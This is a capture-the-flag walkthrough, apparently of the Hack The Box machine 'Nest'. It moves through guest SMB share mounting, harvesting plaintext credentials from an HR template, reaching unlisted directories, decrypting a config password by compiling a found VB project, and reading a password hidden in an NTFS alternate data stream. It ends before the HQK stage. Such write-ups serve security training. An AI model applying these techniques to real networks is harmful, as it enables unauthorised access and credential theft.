





# 10 - SMB

# Shares



# Mount the shares
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest]
└──╼ $ sudo mount -t cifs -o user='guest',pass='' //10.10.10.178/Users /mnt/nest/Users/
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest]
└──╼ $ sudo mount -t cifs -o user='guest',pass='' //10.10.10.178/Data /mnt/nest/Data
```

Browsing the file system is easier this way in my opinion.


# email.txt
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ cat ./Shared/Templates/HR/Welcome\ Email.txt
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```

We got credentials

* TempUser:welcome2019

# Secure$ Share



Let's mount it
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ sudo mount -t cifs -o user='TempUser',pass='welcome2019' //10.10.10.178/Secure$ /mnt/nest/Secure/
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ find /mnt/nest/Secure/ -type f -ls
find: ‘/mnt/nest/Secure/Finance’: Permission denied
find: ‘/mnt/nest/Secure/HR’: Permission denied
find: ‘/mnt/nest/Secure/IT’: Permission denied
```

Unfortunately we don't have access permission on any of the directories.

# Mount Data and Users as TempUser
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ sudo umount /mnt/nest/Data
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ sudo umount /mnt/nest/Users
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ sudo mount -t cifs -o user='TempUser',pass='welcome2019' //10.10.10.178/Users /mnt/nest/Users/
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ sudo mount -t cifs -o user='TempUser',pass='welcome2019' //10.10.10.178/Data /mnt/nest/Data/
```


# Files


```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest]
└──╼ $ find . -type f -ls 2>/dev/null
1970324837032943      0 -rwxr-xr-x   1 root     root            0 Aug  8  2019 ./Users/TempUser/New\ Text\ Document.txt
1688849860269859      1 -rwxr-xr-x   1 root     root          246 Aug  3  2019 ./Data/IT/Configs/Adobe/editing.xml
1125899906848549      0 -rwxr-xr-x   1 root     root            0 Oct 11  2011 ./Data/IT/Configs/Adobe/Options.txt
 844424930146559      1 -rwxr-xr-x   1 root     root          258 Jan  8  2013 ./Data/IT/Configs/Adobe/projects.xml
 844424930146560      4 -rwxr-xr-x   1 root     root         1274 Aug  7  2019 ./Data/IT/Configs/Adobe/settings.xml
 844424930132276      4 -rwxr-xr-x   1 root     root         1369 Jun 11  2003 ./Data/IT/Configs/Atlas/Temp.XML
 844424930146587      8 -rwxr-xr-x   1 root     root         4598 Mar  3  2012 ./Data/IT/Configs/Microsoft/Options.xml
 844424930190694      8 -rwxr-xr-x   1 root     root         6451 Aug  8  2019 ./Data/IT/Configs/NotepadPlusPlus/config.xml
 562949953480044      4 -rwxr-xr-x   1 root     root         2108 Aug  7  2019 ./Data/IT/Configs/NotepadPlusPlus/shortcuts.xml
 281474976769589      1 -rwxr-xr-x   1 root     root          270 Aug  8  2019 ./Data/IT/Configs/RU\ Scanner/RU_config.xml
1125899906845957      1 -rwxr-xr-x   1 root     root           48 Aug  6  2019 ./Data/Shared/Maintenance/Maintenance\ Alerts.txt
 844424930132258      1 -rwxr-xr-x   1 root     root          425 Aug  8  2019 ./Data/Shared/Templates/HR/Welcome\ Email.txt
```
Of all the files, `RU_config.xml` and `config.xml` are the most interesting.


# RU_config
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ cat ./IT/Configs/RU\ Scanner/RU_config.xml
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

The password is base64 encoded 


```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest]
└──╼ $ echo -n fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=| base64 -d  |xxd
00000000: 7d31 3301 f603 a33d 58ce 4aa1 4241 fa19  }13....=X.J.BA..
00000010: 0158 2a9d 5763 9866 edb8 ce3f ceb2 6311  .X*.Wc.f...?..c.
```

Unfortunately it is probably encrypted.

# config.xml
```
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Data]
└──╼ $ grep -ri secure ./IT/Configs/NotepadPlusPlus/config.xml
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
```


Remember the permission denied error we got earlier? That is because unlike files, directory permissions work in a different way. 'x' permission in linux, for example, means *execute* for files and *access* for directories. `rw-` on a **directory** would mean a user can read and write but not list the files in the directory. That is exactly what happened to us when trying to list the files.


But this time we know a directory name. Can we access it even though we are not allowed to list files in the parent directory?

# Carl
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Secure/IT]
└──╼ $ ls
ls: reading directory '.': Permission denied
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Secure/IT]
└──╼ $ ls Carl
 Docs   Reports  'VB Projects'
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Secure/IT]
└──╼ $ find Carl -type f -ls
562949953480059      1 -rwxr-xr-x   1 root     root           56 Aug  7  2019 Carl/Docs/ip.txt
562949953480056      1 -rwxr-xr-x   1 root     root           73 Aug  7  2019 Carl/Docs/mmc.txt
281474976769568      4 -rwxr-xr-x   1 root     root          772 Aug  8  2019 Carl/VB\ Projects/WIP/RU/RUScanner/ConfigFile.vb
281474976769570      1 -rwxr-xr-x   1 root     root          279 Aug  8  2019 Carl/VB\ Projects/WIP/RU/RUScanner/Module1.vb
281474976769578      1 -rwxr-xr-x   1 root     root          441 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/Application.Designer.vb
281474976769579      1 -rwxr-xr-x   1 root     root          481 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/Application.myapp
281474976769580      4 -rwxr-xr-x   1 root     root         1163 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/AssemblyInfo.vb
281474976769581      4 -rwxr-xr-x   1 root     root         2776 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/Resources.Designer.vb
281474976769582      8 -rwxr-xr-x   1 root     root         5612 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/Resources.resx
281474976769583      4 -rwxr-xr-x   1 root     root         2989 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/Settings.Designer.vb
281474976769584      1 -rwxr-xr-x   1 root     root          279 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/My\ Project/Settings.settings
281474976769571      8 -rwxr-xr-x   1 root     root         4828 Aug  9  2019 Carl/VB\ Projects/WIP/RU/RUScanner/RU\ Scanner.vbproj
281474976769572      1 -rwxr-xr-x   1 root     root          143 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner/RU\ Scanner.vbproj.user
281474976769569      4 -rwxr-xr-x   1 root     root          133 Aug  8  2019 Carl/VB\ Projects/WIP/RU/RUScanner/SsoIntegration.vb
281474976769573      8 -rwxr-xr-x   1 root     root         4888 Aug  7  2019 Carl/VB\ Projects/WIP/RU/RUScanner/Utils.vb
281474976769566      4 -rwxr-xr-x   1 root     root          871 Aug  6  2019 Carl/VB\ Projects/WIP/RU/RUScanner.sln
```

As it turns out, we can.

Let's move these files to a safer place.

```
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Secure/IT]
└──╼ $ cp Carl/VB\ Projects/WIP/RU/ ~/htb/nest/Carl/ 
```

At this point, we can move to windows in order to compile the project, we also need RU_config.xml  because compilation fails without it.

```
$ cp /mnt/nest/Data/IT/Configs/RU\ Scanner/RU_config.xml ~/htb/nest/Carl/
```

After the project is compiled, xml file must be moved there.


# SMB for file sharing



# Compile  the project and grab the password


Decrypt function is defined in Utils.vb, Main function in Module1.vb is the entry point so placing a Console.WriteLine gives us the password.

* c.smith:xRxRxPANCAK3SxRxRx


# C Smith


Take note of the files TempUser has access to so we can compare after remounting as another user

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ find /mnt/nest/ -type f -ls 2>/dev/null  > ~/htb/nest/tempuser-ls.log
```
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ sudo mount -t cifs -o user='c.smith',pass='xRxRxPANCAK3SxRxRx' //10.10.10.178/Users /mnt/nest/Users/
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ sudo mount -t cifs -o user='c.smith',pass='xRxRxPANCAK3SxRxRx' //10.10.10.178/Data /mnt/nest/Data/
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ sudo mount -t cifs -o user='c.smith',pass='xRxRxPANCAK3SxRxRx' //10.10.10.178/Secure$ /mnt/nest/Secure
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ find /mnt/nest/ -type f -ls 2>/dev/null > ~/htb/nest/csmith-ls.log
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ diff ~/htb/nest/csmith-ls.log ~/htb/nest/tempuser-ls.log 
1,4c1
< 1125899906901382     20 -rwxr-xr-x   1 root     root        17408 Aug  8  2019 /mnt/nest/Users/C.Smith/HQK\ Reporting/AD\ Integration\ Module/HqkLdap.exe
< 2251799813744259      0 -rwxr-xr-x   1 root     root            0 Aug  9  2019 /mnt/nest/Users/C.Smith/HQK\ Reporting/Debug\ Mode\ Password.txt
< 1407374883612021      1 -rwxr-xr-x   1 root     root          249 Aug  9  2019 /mnt/nest/Users/C.Smith/HQK\ Reporting/HQK_Config_Backup.xml
< 1407374883553549      1 -rwxr-xr-x   1 root     root           32 Aug  9  2019 /mnt/nest/Users/C.Smith/user.txt
---
> 1970324837032943      0 -rwxr-xr-x   1 root     root            0 Aug  8  2019 /mnt/nest/Users/TempUser/New\ Text\ Document.txt
```

Apparently, C.Smith has access to his home directory additionally. `Debug Mode Password.txt` file size is 0. Since it has the name password we can look for alternate data streams.

There is also another file HqkLdap.exe. It could be the client application to HQK service that we discovered with nmap.


# Alternate Stream

```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/nest/Users/C.Smith/HQK Reporting]
└──╼ $ smbclient  //10.10.10.178/Users -c 'allinfo "C.Smith/HQK Reporting/Debug Mode Password.txt"' -U 'c.smith'
Enter WORKGROUP\c.smith's password: 
altname: DEBUGM~1.TXT
create_time:    Fri Aug  9 02:06:12 2019 +03
access_time:    Fri Aug  9 02:06:12 2019 +03
write_time:     Fri Aug  9 02:08:17 2019 +03
change_time:    Fri Aug  9 02:08:17 2019 +03
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest]
└──╼ $ smbclient  //10.10.10.178/Users -U 'c.smith'
Enter WORKGROUP\c.smith's password: 
Try "help" to get a list of possible commands.
smb: \> cd "C.Smith/HQK Reporting/"
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as Debug Mode Password.txt:Password:$DATA (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```


# Password
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest]
└──╼ $ cat Debug\ Mode\ Password.txt\:Password\:\$DATA 
WBQ201953D8w 
```

Let's now proceed with HQK